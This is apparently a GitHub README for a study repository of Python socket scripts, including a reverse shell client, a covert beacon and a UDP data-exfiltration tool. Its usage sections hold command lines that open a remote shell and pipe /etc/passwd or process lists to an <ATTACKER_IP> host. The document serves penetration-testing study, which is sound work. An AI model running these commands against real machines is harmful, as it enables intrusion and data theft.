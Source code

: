 # Sockets in Python

This repository contains a collection of Python scripts that utilize the `socket` library for various networking tasks. These scripts were developed as a practical exercise while studying network programming and security concepts, inspired by courses from Solyd. The collection includes enhanced versions of standard examples, modified scripts for specific use cases, and original creations, all designed for educational and penetration testing study purposes.

## Scripts Overview

Here is a breakdown of each script, its purpose, and how to use it.

### 1. `server_tcp.py`

A robust and persistent TCP server designed to listen for and handle multiple client connections sequentially. It's ideal for use as a listener in penetration testing scenarios, logging all received data to a file.

**Features:**
* **Persistent Listener**: Accepts multiple clients without restarting.
* **Multi-Message Handling**: Manages continuous data streams from a single client.
* **Data Logging**: Saves all data received from clients to `server_log.txt`.
* **Graceful Shutdown**: Can be stopped cleanly with `Ctrl+C`.

**Usage:**
Run the server on your machine, and it will listen on `0.0.0.0` at port `4433`.
```bash
python3 server_tcp.py
````

-----

### 2\. `client_tcp.py`

A classic and highly practical TCP reverse shell. This script connects back to a listening server, and redirects the machine's standard input, output, and error streams to the socket, providing the attacker with a remote shell.

**Features:**

  * **Remote Shell**: Provides a remote command-line interface to the target machine.
  * **Cross-Platform**: Automatically selects `/bin/sh` for Linux or `cmd.exe` for Windows.
  * **Stable Connection**: Uses TCP for reliable, stream-based communication.

**Usage:**

1.  On the attacker's machine, start a listener (e.g., netcat or `server_tcp.py`):
    ```bash
    nc -lvnp 4444
    ```
2.  On the target machine, run the script with the attacker's IP and port:
    ```bash
    python3 client_tcp.py <ATTACKER_IP> 4444
    ```

-----

### 3\. `fast_client_tcp.py`

A minimal, "fire-and-forget" TCP client designed for quick connection tests. Its main purpose is to send a single "beacon" to a listener to confirm that a connection from a target machine is possible.

**Features:**

  * **Silent Failure**: If a connection cannot be established, the script exits silently without raising errors on the target machine.
  * **Minimalist**: Hardcoded IP and port for rapid execution without command-line arguments.
  * **Single Beacon**: Connects, sends a single message, and immediately closes the connection.

**Usage:**

1.  Edit the `HOST` and `PORT` variables inside the script.
2.  Start a listener on the attacker's machine.
3.  Run the script on the target machine:
    ```bash
    python3 fast_client_tcp.py
    ```

-----

### 4\. `client_udp.py`

A lean, single-packet UDP client. This script is designed to send one UDP datagram to a target and then exit. It's perfect for sending quick triggers, simple commands, or testing for UDP listeners without the overhead of a TCP connection.

**Features:**

  * **Command-Line Driven**: Target IP, port, and message are all passed as command-line arguments for maximum flexibility.
  * **Fire-and-Forget**: Sends one packet and exits immediately.
  * **Lightweight**: Uses UDP for a fast, connectionless transmission.

**Usage:**

```bash
python3 client_udp.py <TARGET_IP> <PORT> "<YOUR_MESSAGE>"
```

-----

### 5\. `pipe_udp.py`

An efficient data exfiltration tool that reads input from `stdin` and sends it line-by-line over UDP. This is ideal for quickly and covertly sending the output of other commands or the content of files to a remote listener.

**Features:**

  * **Stealthy Exfiltration**: Sends data directly over the network without writing to a temporary file.
  * **Flexible**: Can be piped with any command that produces text output.
  * **Connectionless**: Uses UDP for fast data transfer.

**Usage:**
On the attacker's machine, start a UDP listener to capture the output: `nc -ulvnp <PORT>`

On the target machine, pipe a command's output to the script:

```bash
# Example: Exfiltrate /etc/passwd content
cat /etc/passwd | python3 pipe_udp.py <ATTACKER_IP> <PORT>

# Example: Exfiltrate running processes on Windows
tasklist | python3 pipe_udp.py <ATTACKER_IP> <PORT>
```

## License

This project is licensed under the MIT License. See the `LICENSE` file for details.

```
https://github.com/nuxyel/sockets-in-python/blob/main/LICENSE
```

by _r3n4n_
